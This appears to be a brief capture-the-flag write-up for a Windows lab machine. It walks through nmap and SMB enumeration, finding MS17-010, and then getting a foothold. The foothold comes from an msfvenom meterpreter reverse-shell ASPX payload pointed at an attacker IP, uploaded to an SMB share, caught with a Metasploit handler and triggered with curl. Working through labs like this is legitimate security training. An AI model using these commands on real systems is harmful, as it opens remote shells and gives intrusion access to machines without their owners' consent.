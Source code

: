 1. did the nmap scan. found smb on 445 and RDP on 3389

2. enumerating SMB port
run smb client

[smbclient -L ip -p 445]
[locate .nse |grep smb-enum] - run these script using nmap scripts[nmap --script=]

after the enumerating we can find out that there is a share named nt4wrksv.  then we can log into it and see the content. 

[smbclient //ip/nt4wrksv] or [smbclient \\\\ip\\nt4wrksv]

we found password.txt in this share. its encoded using base64. lets be there later.

3. run vulnerability scan using nmap script.

[nmap --script vuln -Pn -p ports ip] - -Pn - doesn't check whether ports are exist.

we found (ms17-010) remote code execution. 
using searchploit we can get eternalblue exploit. 

[searchsploit eternalblue]

lets mirror windows server 2016 exploit to current working dir.

[searchsploit -m ]

# first step

i went for this step. it seems easy. i created a revese shell using msfvenom and uploaded it to smb share and triggered it using web. 
creating the reverse shell. 

[msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=10.8.50.72 lport=4444 -f aspx -o shell.aspx]

put the shell in shares. 
[smbclient //ip/sharename] then [put shell.aspx]

creating the listner 

[kali@kali:/data/vpn$ msfconsole -q
msf5 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload windows/x64/meterpreter_reverse_tcp
payload => windows/x64/meterpreter_reverse_tcp
msf5 exploit(multi/handler) > set lhost 10.8.50.72
lhost => 10.8.50.72
msf5 exploit(multi/handler) > set lport 4444
lport => 4444
msf5 exploit(multi/handler) > run]

triggering the shell.aspx

[curl http://ip:49663/sharename/shell.aspx]

then it will connect to the server. go to the bob desktop. there will be the user flag. 

[cd c:/users/bob/Desktop]
